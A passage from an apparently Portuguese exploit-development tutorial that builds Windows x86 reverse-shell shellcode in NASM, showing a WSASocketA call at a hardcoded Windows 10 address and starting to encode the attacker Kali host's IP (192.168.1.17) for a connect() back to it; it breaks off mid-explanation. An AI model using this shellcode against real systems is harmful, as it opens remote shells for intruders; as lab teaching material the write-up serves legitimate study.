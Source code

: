 Já sabemos o endereço da API no OS, vamos iniciar nosso codigo em assembly no próprio Kali.

```nasm
; WSASocketA()

xor ebx, ebx            ; Zerando EBX
push ebx                ; Fazendo push para o parametro 'dwFlags' que pode ser nulo
push ebx                ; Fazendo push para o parametro 'g' que pode ser nulo
push ebx                ; Fazendo push para o parametro 'lpProtocolInfo' que pode ser nulo
mov bl, 6               ; Inserindo valor 6 no Protocol (IPPROTO=6)
push ebx                ; Fazendo push para o parametro 'protocol'
xor ebx, ebx            ; Zerando EBX
inc ebx                 ; Incrementando 1 no EBX zerado 'type: SOCK_STREAM=1'
push ebx                ; Fazendo push para o parametro 'type'
inc ebx                 ; Incrementando 1 ao EBX que ja tem valor 1 'af: AF_INET=2'
push ebx                ; Fazendo push para o parametro 'af'
mov ebx, 0x76e67140     ; Endereco da WSASocketA() no Win10 21H1
call ebx                ; Chamada para WSASocketA()
xchg eax, esi           ; Salvando o socket em ESI

```

Agora precisamos fazer a chamada para a API connect() cuja documentação pode ser encontrada [aqui](https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect).

```c
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
```

Cujo parâmetro “sockaddr” segue a seguinte ordem:

```c
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```

Vamos encontrar o endereço da connect() em nosso OS.

![Enumaração do comando.](/img/std/winbof/winbof-40.png)

Como em Assembly programamos em ordem inversa, o primeiro parâmetro a ser configurado na connect() é o “namelen”,que representa o endereço para onde a conexão será criada, ou seja, da nossa máquina atacante constituido por IP e PORTA, mas os valores tem que ser passados em hexadecimal e com os bytes em ordem inversa, como o IP do meu Kali é 192.168.1.17, teria que seguir a ordem 171168192.

Podemos utilizar a função “hex()” do python para descobrir byte a byte do nosso endereço.
